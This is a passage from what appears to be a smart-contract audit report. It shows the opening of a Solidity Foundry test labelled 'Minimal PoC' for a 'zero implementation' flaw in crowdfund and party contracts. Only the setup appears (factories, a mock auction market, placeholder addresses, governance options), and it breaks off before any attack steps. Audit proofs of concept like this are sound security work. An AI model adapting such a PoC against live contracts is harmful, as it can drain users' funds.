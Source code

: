 ##### Minimal PoC:

```solidity
contract ZeroImplPoC is Test {
    Globals globals = new Globals(address(this));

    // @note the party variable exists, but the constructor has not been run
    Party party;

    AuctionCrowdfund auctionCrowdfund = new AuctionCrowdfund(globals);
    CrowdfundFactory crowdfundFactory = new CrowdfundFactory(globals);
    AuctionCrowdfund.AuctionCrowdfundOptions auctionCrowdfundOptions;
    Crowdfund.FixedGovernanceOpts fixedGovernanceOpts;

    PartyFactory partyFactory = new PartyFactory(globals);

    MockMarketWrapper market = new MockMarketWrapper();
    DummyERC721 tokenToBuy;
    IGateKeeper defaultGateKeeper;
    bytes12 defaultGateKeeperId;
    ProposalExecutionEngine eng =
        new ProposalExecutionEngine(
            globals,
            IOpenseaExchange(vm.addr(0x053)),
            IOpenseaConduitController(vm.addr(0x0533)),
            IZoraAuctionHouse(vm.addr(0x507aa4)),
            IFractionalV1VaultFactory(vm.addr(0xf14f))
        );

    address initialContributor = vm.addr(0x1417141);
    address initialDelegate = vm.addr(0xd417141);
    address host1 = vm.addr(0x40571);
    address host2 = vm.addr(0x40572);
    address host3 = vm.addr(0x40573);

    address contributor1 = vm.addr(0xc04761b1);

    address delegate1 = vm.addr(0xd04761b1);

    address bidder = vm.addr(0xb1d37);

    address splitRecipient = vm.addr(0x5117);

    uint256 auctionId;
    uint256 tokenId;

    function setup_options() internal {
        fixedGovernanceOpts.hosts.push(host1);
        fixedGovernanceOpts.hosts.push(host2);
        fixedGovernanceOpts.hosts.push(host3);
        fixedGovernanceOpts.voteDuration = 1 days;
        fixedGovernanceOpts.executionDelay = 0.5 days;
        fixedGovernanceOpts.passThresholdBps = 0.51e4;

        (auctionId, tokenId) = market.createAuction(1337);
        tokenToBuy = market.nftContract();

        auctionCrowdfundOptions = AuctionCrowdfund.AuctionCrowdfundOptions({
            name: "AuditCrowdfund",
            symbol: "AC",
            auctionId: auctionId,
            market: market,
            nftContract: tokenToBuy,
            nftTokenId: tokenId,
```